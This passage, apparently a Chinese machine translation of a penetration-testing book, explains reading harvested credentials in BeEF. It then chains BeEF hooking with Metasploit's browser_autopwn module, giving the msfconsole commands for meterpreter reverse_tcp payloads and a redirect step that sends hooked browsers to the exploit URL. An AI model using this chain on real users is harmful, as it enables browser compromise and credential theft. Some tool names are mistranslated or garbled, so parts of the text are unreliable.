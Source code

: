 在 BeEF 中，测试人员查看攻击的历史日志，可以从**命令结果**列中的**数据**字段中获取用户名和密码，如下图所示：

![A walkthrough of the BeEF browser](img/3121OS_11_25.jpg)

## 整合牛肉和梅塔斯普洛特攻击

BeEF 和 Metasploit 框架都是使用 Ruby 利用的，可以一起操作来攻击目标。因为它使用客户端和服务器端指纹识别来描述目标，`browser_autopwn`是最成功的攻击之一。

一旦目标被钩住，启动 Metasploit 控制台并使用以下命令配置攻击：

```
msf > use auxiliary/server/browser_autopwn
msf auxiliary(browser_autopwn) > set LHOST 192.168.43.130
msf auxiliary(browser_autopwn) > set PAYLOAD_WIN32
  windows/meterpreter/reverse_tcp
msf auxiliary(browser_autopwn) > set PAYLOAD_JAVA
  java/meterpreter/reverse_tcp
msf auxiliary(browser_autopwn) > exploit 

```

等待所有相关漏洞攻击完成加载。在下面的屏幕截图中显示的示例中，加载了 18 个漏洞利用。请注意攻击的目标 URL。在本例中，目标 URL 为`http://192.168.43.130:8080/ICprp4Tnf4Z`：

![Integrating BeEF and Metasploit attacks](img/3121OS_11_26.jpg)

有几种方法可以引导浏览器点击目标 URL，但是，如果我们已经连接了目标浏览器，我们可以使用 BeEF 的`redirect`功能。在牛肉控制面板中，进入**浏览器****钩住域****重定向浏览器**。出现提示时，使用此模块指向目标 URL，然后执行攻击。

在 Metasploit 控制台中，您将看到针对目标连续发起的选定攻击。成功的攻击将打开 MeterMeter 会话，如以下屏幕截图所示：

![Integrating BeEF and Metasploit attacks](img/3121OS_11_27.jpg)

